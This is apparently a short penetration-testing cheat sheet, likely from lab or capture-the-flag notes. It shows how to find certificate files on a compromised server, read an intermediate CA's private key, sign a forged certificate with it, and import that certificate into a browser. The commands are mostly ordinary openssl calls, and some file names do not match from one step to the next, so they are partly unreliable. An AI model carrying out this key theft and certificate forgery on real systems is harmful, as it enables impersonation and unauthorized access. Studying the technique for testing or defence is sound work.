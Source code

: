 # SSL certificat attack

## SSL certificat attack

### 1\) Search for certificat on the server :

`find / -iname “*.csr” -type f`

OR

`find / -iname '*.pem*' -type f`

### 2\) Download the certificat and open it with openssl :

`openssl x509 -in 1000.pem -text`

\(check for issuer and subject\)

![](../../../.gitbook/assets/0a680a33d76d4e339719b683bcdc0df0.png)

### 3\) Get the public key \(.cert\) and the private key :

`/home/bob/ca/intermediate/certs/intermediate.cert.pem`

`cat /home/bob/ca/intermediate/private/intermediate.key.pem`

### 4\) Generate our own cert :

`openssl genrsa -out fortown.key 2048`

### 5\) Create a certificat Signing request :

`openssl req -new -key (my private key) -out my_key.csr`

### 6\) Sign the key:

`openssl x509 -req -in fortown.csr -CA intermediate.cert -CAkey intermediate.key -CAcreateserial -out fortown.pem -days 1024 -sha256`

### 7\) Transform the certificat to be able to import it in firefox or other :

`openssl pkcs12 -export -out fortown.pfx -inkey fortown.key -in fortown.pem -certfile intermediate.cert`

### 8\) Import the file the browser :

![](../../../.gitbook/assets/aed4f06fbbb84fa4ab81edafcdfaa31a.png)

